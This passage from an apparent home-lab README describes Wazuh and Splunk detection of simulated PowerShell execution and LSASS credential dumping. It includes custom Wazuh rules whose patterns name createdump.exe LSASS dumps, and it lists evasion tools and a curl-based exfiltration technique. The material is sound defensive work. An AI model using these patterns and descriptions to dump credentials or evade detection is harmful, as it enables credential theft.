
*JSON view of the alert: built-in mapping to **T1059.001 — PowerShell / Execution**.*
 
<br> 

**Observations**
 
- The built-in rule describes a *script executed from a suspicious location* (level 6) — a more generic signal than the Splunk rule, which targets the `-ExecutionPolicy Bypass` / `-WindowStyle Hidden` flags specifically.
- The Sysmon configuration itself tags events with a `ruleName` field (`technique_id=T1059.001,technique_name=PowerShell`). That label comes from the Sysmon config, **not** from Wazuh — the mapping Wazuh assigns lives in the `rule.mitre.*` fields.
- The alert appeared roughly a minute after the Sysmon event timestamp, so event time and alert time should be correlated with a small tolerance.
- Other alerts (e.g. rules 92219, 92154, 92213) appeared in the same time window. They were not attributed to the simulated command and are excluded from the findings.
### 🔐 Part 5 — Finding #2: LSASS Memory (T1003.001) — Gap, Then Custom Rules
 
`Invoke-AtomicTest T1003.001` was executed (with `-GetPrereqs`). In this lab, **Wazuh's built-in ruleset did not raise an alert mapped to T1003.001** for this activity.
 

*Search for T1003.001 / LSASS alerts before adding any custom rule — no matching alert from the default ruleset.*
 
Two custom rules were added to `/var/ossec/etc/rules/local_rules.xml`:
 
```xml
<!-- Atomic Red Team T1003.001: LSASS dump via createdump -->
<rule id="100500" level="12">
  <if_group>sysmon_event1</if_group>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)(createdump\.exe.*dotnet-lsass\.dmp|Get-Process\s+lsass)</field>
  <description>Possible LSASS memory dump via PowerShell and createdump.exe</description>
  <mitre>
    <id>T1003.001</id>
  </mitre>
  <group>credential_access,lsass,atomic_red_team,</group>
</rule>
 
<!-- Sysmon Event ID 10: suspicious access to LSASS -->
<rule id="100501" level="12">
  <if_group>sysmon_event_10</if_group>
  <field name="win.eventdata.targetImage" type="pcre2">(?i)\\lsass\.exe$</field>
  <field name="win.eventdata.sourceImage" type="pcre2">(?i)(\\powershell\.exe|\\createdump\.exe|\\AppData\\|\\Temp\\)</field>
  <description>Possible credential dumping: suspicious process accessed LSASS</description>
  <mitre>
    <id>T1003.001</id>
  </mitre>
  <group>credential_access,lsass,</group>
</rule>
```
 
| Rule | Data source | Logic | Level |
|---|---|---|---|
| **100500** | Sysmon EventID 1 (process creation) | Command line containing `createdump.exe ... dotnet-lsass.dmp` or `Get-Process lsass` | 12 |
| **100501** | Sysmon EventID 10 (process access) | Target is `lsass.exe` **and** the source process is PowerShell, `createdump.exe`, or runs from `AppData` / `Temp` | 12 |
 

*Custom rules 100500 and 100501 in `/var/ossec/etc/rules/local_rules.xml` on the Wazuh server.*
 
After restarting the manager (`sudo systemctl restart wazuh-manager`) and re-running the test, both rules fired and mapped the activity to **T1003.001 — LSASS Memory (Credential Access)**.
 

*Both custom rules (100500, 100501) now appearing in the alert list for `Windows10-Victim`.*

<br>
 

*Alert for rule **100500** — possible LSASS memory dump via PowerShell and createdump.exe (level 12, T1003.001 / Credential Access).*
 

*Alert for rule **100501** — suspicious process accessed LSASS (Sysmon EventID 10, level 12, T1003.001 / Credential Access).*
 
<br>

### 🗺️ Part 6 — MITRE ATT&CK View in Wazuh
 

*Wazuh's MITRE ATT&CK module showing the tactics.
 
### 📊 Results Summary
 
| Technique | Splunk (custom SPL alert) | Wazuh (default rules) | Wazuh (after custom rule) |
|---|---|---|---|
| **T1059.001** PowerShell | ✅ Custom alert on `-ExecutionPolicy Bypass` / `-WindowStyle Hidden` | ✅ Rule **92029** (level 6, generic) | — not needed |
| **T1003.001** LSASS Memory | ✅ Custom alert (EventCode 1 / 10, `lsass`) | ❌ No alert mapped to T1003.001 | ✅ Rules **100500** + **100501** (level 12) |
 
### 🧠 Wazuh Findings
 
- **Detection coverage differs per technique, not per platform.** Wazuh caught the PowerShell activity out of the box but did not alert on the LSASS test until custom rules were written — the same "find the gap, then engineer a detection" cycle used in Splunk.
- **Built-in rules are generic by design.** Rule 92029 (level 6) reacts to a script run from a suspicious location; it does not distinguish the specific obfuscation flags the Splunk rule targets. Out-of-the-box coverage is a starting point, not a finished detection.
- **Two complementary LSASS detections.** 100500 looks at *what was executed* (command line); 100501 looks at *what happened* (a suspicious process touching `lsass.exe`). Behaviour-based detection is more resilient than relying on a tool name alone.
- **Native MITRE mapping inside the rule definition** (`<mitre><id>…</id></mitre>`) makes every alert filterable by technique and tactic in the dashboard.

> 📁 Rule file: [`wazuh/local_rules.xml`](wazuh/local_rules.xml) · Evidence: [`wazuh/screenshots/`](wazuh/screenshots/)
 
<br>

---

## 📄 Incident Reports

| Report | Technique(s) | Severity | Summary |
|---|---|---|---|
| [IR-001 — Multi-Stage Attack Chain](incident_reports/IR-001-multi-stage-attack-chain.md) | T1059.001, T1003.001, T1136.001, T1560.001, T1567 | Critical | Full kill chain from initial PowerShell execution through credential theft, persistence, data staging, and exfiltration — detected end-to-end via the multi-stage correlation search above. |

Each report follows a consistent structure: Executive Summary, Timeline, Evidence, Investigation, Root Cause, Containment & Remediation, Lessons Learned, and MITRE ATT&CK Mapping. 

---

## 🔑 Key Technical Findings

- Splunk's `index=main` retains forwarded events even if an attacker later tries to clear local Windows logs — centralized logging beats local tampering.
- Matching on both `-ExecutionPolicy Bypass` and `-WindowStyle Hidden` narrows results to genuinely suspicious PowerShell invocations rather than all PowerShell activity.
- LSASS credential dumping doesn't always show up as a clean process name — tools like `xordump` or `rdrleakdiag` are used to evade signature-based detection, so hunting on process access patterns (Sysmon EventCode 10, `TargetImage=lsass.exe`) is more resilient than blocking by filename alone.
- Local account creation via `net user` is a fast, low-noise way for an attacker to establish persistence — pairing the command-line string with `localgroup` catches both the account creation and the follow-up privilege escalation (adding the new account to an admin group).
- Data staging via archive utilities (7-Zip, WinRAR, WinZip, makecab) is a common precursor to exfiltration — because attackers can use any of several tools for the same goal, the detection needs to match on the *behavior* (compressing files into an archive) across multiple binaries rather than a single process name.
- Exfiltrating over a legitimate public web API (rather than attacker-owned infrastructure) is a realistic evasion technique — the traffic looks like normal HTTPS to an API endpoint, so detection has to rely on process-level context (an unusual process like `curl.exe` making an outbound connection, carrying a local file as form data) rather than domain reputation alone.
- A single alert can be a false positive, but a correlation search tying `eval`-tagged attack stages to `stats ... by host, User` turns isolated low/medium-confidence signals into a high-confidence, prioritized detection — this is the same escalation logic a SOC analyst uses when triaging multiple related alerts into one incident.
- Automating the response closes the detect → enrich → respond loop: reputation enrichment (VirusTotal) turns a raw IP into a decision, and a firewall rule turns the decision into containment in seconds. Rate limits, private-IP filtering and an allowlist are what make such automation safe enough to trust.
- Running a second SIEM/EDR on the same endpoint shows that out-of-the-box coverage varies per technique: Wazuh's built-in ruleset caught the PowerShell activity (rule 92029) but needed custom MITRE-mapped rules (100500, 100501) for the LSASS test. Built-in rules are a baseline; tuned, behaviour-based custom rules close the gaps.

---

## <a id="roadmap"></a>🗺️ Roadmap

- [x] Simulate a credential access technique
- [x] Simulate a persistence technique 
- [x] Simulate a collection technique 
- [x] Simulate an exfiltration technique  — completes a full attack chain
- [x] Build a correlation rule that fires when multiple attack-chain stages occur on the same host in a short window
- [x] Generate a MITRE ATT&CK Navigator heatmap of techniques covered
- [x] Capture real screenshots of alerts and detections
- [x] Write an incident report from real alert data (timeline, root cause, containment, lessons learned)
- [x] Automate response: VirusTotal IP enrichment + Windows Firewall auto-block + webhook notification
- [x] Deploy Wazuh server + agent and ingest Sysmon telemetry
- [x] Document Wazuh default detection of PowerShell (rule 92029)
- [x] Write custom MITRE-mapped Wazuh rules for LSASS access (rules 100500, 100501)
---

## 🛠️ Technologies Used

| Category | Technology |
|---|---|
| SIEM | Splunk Enterprise |
| SIEM / EDR | Wazuh (manager, indexer, dashboard, agent) |
| Endpoint Detection | Sysmon 15.x |
| Log Transport | Splunk Universal Forwarder, Wazuh Agent |
| Virtualization | Oracle VirtualBox |
| Framework | MITRE ATT&CK |
| OS — SIEM | Ubuntu Server |
| OS — Wazuh Server | Ubuntu (cloned VM) |
| OS — Endpoint | Windows 10 |

---

## 👤 About

**Przemyslaw Wierzbicki** — building hands-on SOC/detection engineering skills through this home lab.

- 🐙 GitHub: [PoeticLinee](https://github.com/PoeticLinee)
- 💼 LinkedIn: [Przemysław Wierzbicki](https://www.linkedin.com/in/przemysław-wierzbicki-42b840424/)

---

## 📄 License

MIT License